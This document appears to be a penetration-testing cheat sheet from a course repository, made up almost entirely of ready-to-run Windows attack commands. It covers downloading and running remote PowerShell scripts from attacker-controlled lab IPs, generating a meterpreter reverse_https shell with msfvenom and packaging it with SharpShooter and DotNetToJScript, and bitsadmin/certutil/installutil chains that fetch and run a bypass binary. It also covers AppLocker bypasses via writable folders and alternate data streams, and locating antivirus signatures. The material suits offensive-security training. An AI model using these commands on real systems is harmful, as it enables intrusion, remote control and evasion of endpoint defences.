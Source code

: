 # Proxies
## Remap reg hive
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

## Change UA of webclient
```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

## Get Proxy settings as SYSTEM
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}

$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.71/clip.txt")
```
## Create Jscript rev shell and vbscript
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
DotNetToJScript.exe ExampleAssembly.dll --lang=vbscript --ver=v4 -o demo.vbs
```
## Sharpshooter

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
┌──(kali㉿kali)-[/opt/SharpShooter]
└─$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

```
# LOLBINS
## File download and applocker bypass exe

```
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt
certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe
del C:\users\student\enc.txt
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```
# Applocker Bypass
## Copy to unprotected directories
```
copy Bypass.exe C:\Windows\Tasks
C:\Windows\Tasks\Bypass.exe 
```
## ADS
file must be both writable and executable
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
## installutil
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```
## Download, decode, installutil
```
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```
# AV
## Find signature
```
Import-Module .\Find-AVSignature.ps1
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```
